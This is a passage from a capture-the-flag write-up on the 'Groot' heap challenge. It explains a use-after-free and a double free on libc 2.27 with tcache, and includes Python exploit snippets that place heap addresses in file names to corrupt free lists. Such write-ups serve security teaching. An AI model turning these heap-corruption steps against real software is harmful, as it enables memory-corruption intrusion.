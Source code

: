 ```python
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, '..')
makeDir     (conn, 'groot2')
cdDir       (conn, 'groot2')
```

Lasts `cd` commands just clear the workspace(i.e., fill some freed chunks) and then i preferred to leave the directory to avoid segfaults.

## I am Groot

Untill now, there's nothing special to know about this program, it is just an example of use after free. From now on instead, it is better to explain some more details about Groot! Almost every inserted string is passed to a strdup, which will allocate the correct number of bytes for that particular string(this mean that is not possible to pad input with zero or new line characters, for instance). Thus, if we want to insert an address in a chunk it will be surely inserted in a chunk of size 0x20(this is a key point for this challenge). Moreover, we cannot also create a fake `filesystem_object` because the first zero used for padding an address will terminate the string and place it in a chunk of size 0x20.
Another key point is how the chunk are managed. We are provided with the libc(2.27) which manages the freed chunks with the tcache.

## Write/Read on the heap

Now comes the tricky part. If a directory is freed, recreated in the same chunk of the previous one and freed again, all of the files and subdirectories inside it will be freed two times. If it is done in a proper way, a double free may not lead to a memory corruption. In order to get a proper double free, I created some files(not all are used for the double free), one directory and one file inside this last. I need some files to be freed for the same reason I explained before: arguments consume the free list.

```python
createFile  (conn, 'file1', 'file1')
createFile  (conn, 'file2', 'file2')
createFile  (conn, p64(heap_base + OFFSET_FILENAME4), 'file3')
createFile  (conn, p64(heap_base + OFFSET_FILECONTENT5), 'file4') 
createFile  (conn, 'file5', p64(heap_base + OFFSET_FILECONTENT5))
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'file1')
cdDir       (conn, '..')
rm          (conn, 'file1')
rm          (conn, 'directory1')
rm          (conn, 'file2')
cdDir       (conn, 'A' * 0x30)
makeDir     (conn, 'directory1')
rm          (conn, 'directory1')
```

With some `cd` of As I'm filling the chunks of file2, file3 and file4 with As. In this way, the directory will be created in the same chunk of the freed directory and again, it will have the same `head` address of the previous directory. Finally, freeing this last directory will provide us a double free and so, a list of free chunks in which we can control the pointer to the next free chunk.
File3, file4 and file5 has values which may be not really clear now. The name of file3 is just a pointer to the pointer of the pointer of file4, file4 name is just a pointer to the pointer of the content of file5 and file5 content is a pointer to the pointer of its content.
